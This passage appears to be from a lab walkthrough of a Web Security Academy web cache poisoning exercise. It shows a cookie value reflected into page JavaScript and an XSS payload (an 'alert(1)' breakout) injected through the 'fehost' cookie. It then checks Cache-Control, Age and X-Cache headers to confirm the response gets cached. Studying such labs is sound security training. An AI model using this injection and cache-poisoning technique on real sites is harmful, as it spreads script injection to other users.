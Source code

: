 Now inspect the Response and notice
```js
<script>
	data = {"host":"my.web-security-academy.net","path":"/login","frontend":"prod-cache-01"}
</script>
```

Navigate to Home page and verify all the same applies.

Test for XSS

```js
Cookie: session=wsC9Fdm8oU5G8YKr8KxmKPH3BOLUQaYU; fehost=prod-cache-01"};alert(1);x={"arg":"val
```

URL encode and test. 

In the Response notice
```http
-
Cache-Control: max-age=30
Age: 0
X-Cache: miss
```

They helped us out with the `Cache-Control` and `Age`.

```
Cookie: session=wsC9Fdm8oU5G8YKr8KxmKPH3BOLUQaYU; fehost=myValue
```

```http
-
Cache-Control: max-age=30
Age: 0
X-Cache: miss
```

```js
<script>
	data = {"host":"my.web-security-academy.net","path":"/login","frontend":"myValue"}
</script>
```

Sending the same request again we get
```http
-
Cache-Control: max-age=30
Age: 5
X-Cache: hit
```

Now delete the session from the Cookie and send again

```
Cookie: fehost=myValue
```

```http
-
Cache-Control: max-age=30
Age: 7
X-Cache: hit
```

